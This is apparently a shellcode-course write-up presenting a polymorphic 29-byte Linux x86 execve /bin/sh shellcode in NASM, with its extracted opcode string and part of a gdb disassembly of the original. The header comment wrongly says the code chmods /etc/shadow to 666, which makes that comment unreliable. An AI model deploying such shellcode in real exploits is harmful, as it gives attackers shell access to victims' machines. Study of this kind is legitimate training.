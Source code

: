 #### Polymorphic Shellcode
The polymorphic version of the shellcode I have created can be found <a href="https://github.com/skahwah/slae/blob/master/assignment6/execve-stack-bin-sh.nasm">here</a>

Below is an explanation of the changes.

```nasm
;execve-stack-bin-sh.nasm
;this changes the permissions for /etc/shadow to 666
;Linux x86
;Saniv Kawa (@skawasec)
;www.popped.io
;December 6, 2016
;29 bytes
global _start

section .text

_start:
  xor ebx, ebx ;zero out EBX
  push ebx ;push 0 on to the stack
  pop eax ;pop 0 off the stack and zero out EAX
  push eax ;null terminate
  mov bl, 6 ;arithmetic for AL register
  add bl, bl ;arithmetic for AL register
  dec bl ;arithmetic for AL register
  push word 0x6873 ;hs
  push word 0x2f2f ;//
  push 0x6e69622f ;nib/
  mov eax, esp  ;stack pointer
  xchg eax, ebx ;EAX now contains the correct syscall value, 11.  
                ;EBX contians the stack pointer
  int 0x80
```

#### Compiling the Polymorphic Shellcode

```
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ ./compile.sh execve-bin-sh-stack
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\x31\xdb\x53\x58\x50\xb3\x06\x00\xdb\xfe\xcb\x66\x68\x73\x68\x66\x68\x2f\x2f\x68\x2f\x62\x69\x6e\x89\xe0\x93\xcd\x80"
[+] Size: 29 bytes
skawa@ubuntu:~/Desktop/code/assignment/assignment6$
```

#### Disassembly of the Original Shellcode

```nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ gdb -q ./execve-bin-sh-stack-original
Reading symbols from /home/skawa/Desktop/code/assignment/assignment6/execve-bin-sh-stack-original...(no debugging symbols found)...done.
(gdb) break _start
Breakpoint 1 at 0x8048080
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment6/execve-bin-sh-stack-original

Breakpoint 1, 0x08048080 in _start ()
(gdb) disas
Dump of assembler code for function _start:
=> 0x08048080 <+0>:	xor    ecx,ecx
   0x08048082 <+2>:	mul    ecx
   0x08048084 <+4>:	push   ecx
   0x08048085 <+5>:	push   0x68732f2f
```